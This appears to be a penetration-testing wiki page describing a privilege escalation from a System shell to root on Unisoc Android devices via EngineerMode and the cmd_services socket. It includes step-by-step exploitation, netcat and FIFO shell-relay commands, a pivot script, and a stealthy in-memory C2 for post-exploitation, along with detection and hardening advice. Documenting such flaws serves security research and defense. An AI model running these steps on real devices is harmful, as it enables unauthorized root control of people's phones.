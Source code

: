 # Android Unisoc EngineerMode / cmd_services LPE

{{#include ../../banners/hacktricks-training.md}}

Abuse a trusted client context in Unisoc-based Android builds to pivot from a System shell (EngineerMode) to a root shell while SELinux remains enforcing. The chain relies on Unisoc’s root service (cmd_services) that listens on the abstract UNIX domain socket "cmd_skt" and authorizes a hardcoded package whitelist that includes com.sprd.engineermode.

High level:
- CVE-2025-31710 exposes a System-context shell inside EngineerMode (reachable e.g., via dialer code), giving you the right app context/SELinux domain.
- Unisoc cmd_services runs as root and accepts privileged commands from whitelisted packages over @cmd_skt. Reverse engineering shows com.sprd.engineermode in the allowlist.
- Post–CVE-2022-47339 hardening made cmd_services short-lived when idle. You must race: enable via setprop → immediately connect an authorized client binary (cli-pie) → drive root operations.
- Variant: some OEMs ship tool_service (successor of cmd_services), which is always-on, avoiding the race.

Why it works (root cause):
1) EngineerMode provides a System shell (CVE-2025-31710).
2) cmd_services trusts the EngineerMode package identity and processes commands as root once a whitelisted client connects to @cmd_skt.
3) A race is needed because cmd_services self-terminates quickly when idle (post-2022 changes).

Notes and constraints:
- Confirmed up to Android 13. On Android 14/15 many OEMs removed sharedUserId from EngineerMode; typical sepolicy denies executing the cmd_services client from its context. Exceptions observed when OEM kept EngineerMode under vendor/ or when tool_service is present.
- SELinux stays enforcing throughout; you gain a root shell but are still bound by sepolicy of the resulting domain.
- Some engineering builds (A9 observed) run the service with gid=root; user builds tend to gid=system. SELinux remains the main limiter in both cases.

---
## Internals quick view

- cmd_services
  - Daemon name: cmd_services; runs as root
  - Transport: abstract UNIX domain socket "cmd_skt" (abstract namespace, i.e., leading NUL)
  - AuthZ: package whitelist includes com.sprd.engineermode (EngineerMode)
  - Lifetime: exits shortly after enabling if idle (post-2022 hardening)
  - Enable prop: persist.sys.cmdservice.enable=enable (start) → service auto-terminates when idle

- tool_service (variant)
  - Always active replacement observed in newer builds; no enable property required
  - Same basic trust model; connect directly from a System-context shell

---
## Requirements

- EngineerMode present and accessible (CVE-2025-31710). Typical entry via dialer code: *#*#83781#*#*
- System-context shell inside EngineerMode (EngineerMode’s own ADB shell activity)
- Authorized client for cmd_services:
  - cli-pie (32/64-bit) from TomKing062’s cmd_services client
- Optional helpers:
  - com.sammy.systools (ships/places cli-pie)
  - ADB or Shizuku (rish) only to ease timing; fully offline flow also works from the EngineerMode shell UI

---
## Exploitation (cmd_services, race enable→connect)

From the EngineerMode System shell UI:

1) Open EngineerMode main activity (dial: *#*#83781#*#*). Navigate to its ADB shell activity to obtain a System shell.
2) Prepare two commands in the UI (two separate inputs):
   A) setprop persist.sys.cmdservice.enable enable
   B) /full/path/to/cli-pie    # include the applet name if needed
3) Press Start on A), then immediately Start on B). Success looks like cli-pie reporting a connection to cmd_skt.
4) Spawn a loopback relay from the same System shell to keep an interactive channel and pivot locally:

```bash
# BusyBox netcat variant with -L (exec on connect)
nc -s 127.0.0.1 -p 1234 -L sh -l
```

Fallback if -L isn’t available (common on Android):
```bash
# try multiple nc variants (busybox, toybox) or a simple FIFO relay
mkfifo /data/local/tmp/f; sh -i < /data/local/tmp/f 2>&1 | nc 127.0.0.1 1234 > /data/local/tmp/f
```

5) From another local terminal (same device), connect to the relay and finalize the pivot using the repo script:

```bash
nc 127.0.0.1 1234
# inside that shell, source the pivot script from a readable location
source /sdcard/Documents/unisoc-su.sh
```

If timing and policy align, you now have a root shell with SELinux enforcing.

Tip: The repository includes helper flows and a “multi” wrapper (ghostroot/tools.sh) to try different nc binaries until one works on the target.

---
## Variant: tool_service (no race)

On devices with tool_service (successor to cmd_services), the service is always-on. Skip the enable property and connect directly:

```bash
/full/path/to/cli-pie
# then use the same loopback relay and source unisoc-su.sh
```

Reference service specification: see tool_service.rc.txt in the repo attachments.

---
## Offline vs ADB/Shizuku-assisted flows

- System-shell only (offline): perform the entire sequence inside EngineerMode without ADB or Shizuku; use unisoc-su-syshell-only-tut.sh as guidance.
- ADB/Shizuku-assisted: use ADB or a Shizuku rish shell only to hit the precise timing for setprop → connect; then pivot locally. See unisoc-su-adb-shizuku-tut.sh.

---
## Post-exploitation: GhostRoot (RAM-only C2)

GhostRoot is a stealthy, RAM-resident command/control channel that any unprivileged app can feed via simple file I/O. It avoids persistent writes and survives until reboot, intended for in-memory operations after the root pivot. Precompiled C binaries are provided in the repo Releases.

---
## Detection and hardening

- Patch CVE-2025-31710; remove EngineerMode or ensure it is not authorized by cmd_services/tool_service on production builds.
- Lock down the root service auth model; avoid static allowlists or bind to robust identity checks enforced by SELinux and verified at connect time.
- Monitor for enable toggles and client executions:
  - setprop persist.sys.cmdservice.enable enable
  - Executions of cli-pie (both 32/64-bit variants)
  - Abstract socket activity to @cmd_skt (and tool_service socket)
- Hunt for loopback listeners and local pivots:
  - nc -s 127.0.0.1 -p 1234 -L sh -l
  - nc 127.0.0.1 1234; look for FIFO relays when -L is unavailable
- Review SELinux audit logs for EngineerMode executing non-standard binaries and cmd_services client ops on user builds.

---
## Practical caveats

- The enable→connect race is critical on hardened cmd_services builds; latency in the UI can cause misses. Use helper scripts or Shizuku-assisted timing if available.
- On Android 14/15, lack of sharedUserId in EngineerMode often blocks executing the client from that context; OEM-specific placements under vendor/ may still be exploitable.
- SELinux remains enforcing; achievable actions depend on the resulting domain and any OEM sepolicy relaxations.

---
## References

- [unisoc-su: System-to-root on Unisoc via EngineerMode and cmd_skt (cmd_services)](https://github.com/Skorpion96/unisoc-su)
- [CVE-2025-31710 – EngineerMode exposes System shell](https://nvd.nist.gov/vuln/detail/CVE-2025-31710)
- [CVE-2022-47339 – Unisoc cmd_services exposure](https://nvd.nist.gov/vuln/detail/CVE-2022-47339)
- [cmd_services client (cli-pie) by TomKing062 – Releases](https://github.com/TomKing062/cmd_services_client/releases)
- [pascua28 – com.sammy.systools helper app](https://github.com/pascua28)

{{#include ../../banners/hacktricks-training.md}}